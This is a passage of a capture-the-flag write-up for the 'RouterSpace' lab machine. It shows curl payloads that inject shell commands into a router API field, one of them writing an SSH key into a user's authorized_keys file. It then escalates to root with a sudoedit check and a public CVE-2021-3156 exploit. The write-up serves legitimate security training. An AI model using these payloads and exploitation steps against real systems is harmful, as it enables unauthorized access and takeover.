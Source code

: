 However, running this did not work. In fact, I couldn't even ping my attacker machine from the target box with a command like this:

```
curl -X POST -H "User-Agent: RouterSpaceAgent" -H "Content-Type: application/json" --data '{"ip": ";ping -c 3 10.10.14.14 &"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```

So, instead I just added my SSH public key to the `paul` user's `~/.ssh/authorized_keys` file.

### `authorized_keys` file

We can add our ssh public key to by running this command:

```
curl -X POST -H "User-Agent: RouterSpaceAgent" -H "Content-Type: application/json" --data '{"ip": ";echo '\''[PUBLIC KEY TEXT HERE]'\'' > /home/paul/.ssh/authorized_keys"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```

The `'\''` sequence is used to escape the single quote (`'`) and was learned from [this StackOverflow answer](https://stackoverflow.com/a/39802572).

## Privilege Escalation

Now, we can connect with `ssh paul@routerspace.htb -i /home/kali/.ssh/id_rsa` (or `pwncat-cs paul@routerspace.htb --identity /home/kali/.ssh/id_rsa`).

We upload LinPEAS (`upload linpeas.sh` in `pwncat`) and run it with `bash linpeas.sh`. This doesn't show much but says `sudo` version `1.8.31` is installed, which we can also see by running `sudo -V`.

Searching for "sudo 1.8.31 exploit" finds [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [this associated blog post](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit). [Here is a video by LiveOverflow about CVE-2021-3156](https://www.youtube.com/watch?v=TLa2VqcGGEQ).

We can run the following command to see if we are vulnerable ([from sudo advisory](https://www.sudo.ws/security/advisories/unescape_overflow/)):

```
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```

This outputs the following, which means `sudo` is vulnerable:

```
malloc(): corrupted top size
Aborted (core dumped)
```

We can exploit this vulnerability to get root using [CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156). Download the repo to your attacker machine with `git clone https://github.com/CptGibbon/CVE-2021-3156.git` and then upload the `Makefile`, `shellcode.c`, and `exploit.c` files. Finally, run `make` and `./exploit` to get a shell as root.

Now, just `cat /root/root.txt` to get the `root.txt` flag.
